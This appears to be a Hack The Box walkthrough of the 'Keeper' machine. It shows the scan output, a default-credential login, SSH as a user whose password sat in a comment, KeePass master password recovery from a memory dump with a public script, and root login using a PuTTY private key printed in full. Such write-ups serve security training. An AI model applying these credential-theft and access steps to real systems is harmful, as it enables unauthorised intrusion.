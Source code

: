 # Keeper | HTB
### Difficulty Level: Easy
----------------------------------------

```bash
# Nmap 7.94SVN scan initiated Thu Apr 18 17:23:04 2024 as: nmap -A -T4 -p- -oN keeper.nmap 10.10.11.227
Nmap scan report for 10.10.11.227
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/18%OT=22%CT=1%CU=30720%PV=Y%DS=2%DC=T%G=Y%TM=6621
OS:8FB3%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=FF%GCD=2%ISR=104%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE
OS:88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   83.33 ms 10.10.14.1
2   83.83 ms 10.10.11.227

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 18 17:25:07 2024 -- 1 IP address (1 host up) scanned in 123.42 seconds
```

There are 2 open ports:
22 - SSH
80 - HTTP

Add the machine address to /etc/hosts.
```bash
echo '10.10.11.227     keeper.htb' >> /etc/hosts
```

browse to the webpage:

![image](https://cdn-images-1.medium.com/max/1000/1*uu-dlBFqlNAZuLwN9TFBIg.png)

there is another subdoamin, add it to the file.

there is login page:

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*iNdnfzvnlosEiroyw-CCyg.png)


check for default credentials:

![image](https://cdn-images-1.medium.com/max/1000/1*b8gh8j2vTZtqWD1_4TlBww.png)


and.. I'm in.

I checked the user panel and there is another username "lnorgaard".

there is comment with password.

![image](https://cdn-images-1.medium.com/max/1000/1*TJmGZzD2if37aOYvgDwyrQ.png)

we have credentials of user. let's connect it with ssh:

```bash
└─# ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$
```

we are in as inogaard.
There is user.txt flag.

there is zipfile. There are 2 files:

```bash
lnorgaard@keeper:~$ unzip RT30000.zip 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx
```

there is kdbx that includes passwords and dump file that includes password to open the kdbx file.

I used this dumper from https://github.com/matro7sh/keepass-dump-masterkey

```bash
└─# python3 poc.py ../KeePassDumpFull.dmp 
2024-04-20 16:59:13,956 [.] [main] Opened ../KeePassDumpFull.dmp
Possible password: ●●dgr●d med fl●d
```

that's what i got from it.
I searched it in google and got it : Rødgrød Med Fløde maybe it can be rødgrød med fløde.

use this web app to unlock the file.
https://app.keeweb.info/
enter the password.

that's what I got:

```bash

PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

To convert a PuTTY private key (.ppk) to an SSH key (.pem), you can use the PuTTYgen tool in command-line mode.
The PuTTYgen tool provides a command-line interface for performing key conversions and operations.
Here's the command to convert a PuTTY private key (.ppk) to an SSH key (.pem) using PuTTYgen in command-line mode:

```bash
puttygen key.ppk -O private-openssh -o id_rsa
```
give it 600 per.

```bash
chmod 600 id_rsa
```

than use ptk to enter root user.

```bash
ssh root@keeper.htb -i id_rsa
```

and we are root.

```bash
└─# ssh root@keeper.htb -i id_rsa
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Sat Apr 20 23:19:47 2024 from 10.10.14.30
root@keeper:~#
```






























